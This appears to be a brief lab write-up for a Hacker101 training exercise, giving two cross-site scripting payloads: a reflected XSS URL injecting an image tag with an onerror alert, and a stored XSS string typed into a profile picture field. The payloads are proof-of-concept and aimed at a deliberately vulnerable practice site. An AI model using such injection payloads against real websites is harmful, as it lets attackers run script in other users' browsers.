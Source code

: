 ## Reflected XSS

The following will triger a reflected XSS

    https://levels-a.hacker101.com/levels/2/?id=%3Cimg%20src=toto%20onerror=alert(1)%3E

## Stored XSS

The following will triger a stored XSS

Go to "Edit profile" > Profile picture URL and type something like:

    XSS" onerror=alert(1)
